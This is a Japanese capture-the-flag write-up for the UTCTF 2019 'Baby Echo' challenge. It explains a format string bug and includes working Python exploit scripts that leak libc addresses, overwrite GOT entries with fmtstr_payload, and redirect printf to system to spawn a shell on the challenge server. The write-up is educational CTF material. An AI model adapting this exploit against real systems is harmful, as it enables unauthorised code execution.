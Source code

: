 # [pwn 700pts] Baby Echo - UTCTF
32ビットバイナリです．
```
$ checksec pwnable 
[*] '/home/ptr/writeups/2019/UTCTF_2019/Baby_Echo/pwnable'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
IDAで解析しましょう．

まずstdinとstdoutをsetbufした後，fgetsで0x32バイト入力します．
入力されたデータはそのままprintfで出力されるのでFSBが存在します．
最後にexitでプログラムが終了します．

シェルを起動するためには`system("/bin/sh")`などを呼ぶ必要があるのですが，そのためにはsystem関数や`/bin/sh`のアドレスが必要なのでlibc baseをリークする必要があります．
リークに1回，書き換えに1回のprintfが必要なため，2回以上printfを呼ばなくてはなりません．
したがって，1回目にexit関数のGOTをmain関数のアドレスに書き換えてやれば，main終了時に何度もmainが呼び出され，printfをいくらでも使うことができます．

方針としては1回目でアドレスリークおよびexitのGOT書き換えをします．
2回目でprintfのGOTをsystemのアドレスにし，3回目で`/bin/sh`をprintfに渡すことでシェルが起動します．

libcが配られていないので，まずはこれを特定します．
GOTのアドレスを見てやれば関数のアドレスが分かるのでlibc databaseで検索します．
```python
from ptrlib import *

elf = ELF("./pwnable")
sock = Socket("127.0.0.1", 9002)
payload = b"AA"
payload += p32(elf.got('fgets'))
payload += p32(elf.got('setbuf'))
payload += p32(elf.got('puts'))
payload += b".%11$s"
payload += b".%12$s"
payload += b".%13$s."
sock.recvuntil("back.\n")
sock.sendline(payload)
ret = sock.recv()
rets = ret.split(b".")
addr1 = u32(rets[-3][:4])
addr2 = u32(rets[-2][:4])
addr3 = u32(rets[-4][:4])
print("[+] <setbuf> = " + hex(addr1))
print("[+] <puts> = " + hex(addr2))
print("[+] <fgets> = " + hex(addr3))
```

あとは先程説明した通りの攻撃を実行すればOKです．
```python
from pwn import *

elf = ELF("./pwnable")

libc = ELF("./libc6-i386_2.23-0ubuntu10_amd64.so")
sock = remote("stack.overflow.fail", 9002)
#libc = ELF("/lib/libc.so.6")
#sock = remote("localhost", 9002)

# change exit@got --> main
writes = {
    elf.got['exit']: elf.symbols['main']
}
payload = "AA" + fmtstr_payload(11, writes, numbwritten=2, write_size='short')
sock.recvuntil("back.\n")
sock.sendline(payload)

# leak libc base
payload = "AA"
payload += p32(elf.got['fgets'])
payload += ".%11$s."
sock.recvuntil("back.\n")
sock.sendline(payload)
rets = sock.recvline().split(".")
addr_fgets = u32(rets[-2][:4])
libc_base = addr_fgets - libc.symbols['fgets']
print("[+] libc base = " + hex(libc_base))
addr_system = libc_base + libc.symbols['system']

# change printf@got --> system
writes = {
    elf.got['printf']: addr_system
}
payload = "AA" + fmtstr_payload(11, writes, numbwritten=2, write_size='short')
sock.recvuntil("back.\n")
sock.sendline(payload)

# get the shell!
sock.recvuntil("back.\n")
sock.sendline("/bin/sh")

sock.interactive()
```

# 感想
FSBは脆弱性1つでいろいろできるから楽しい．
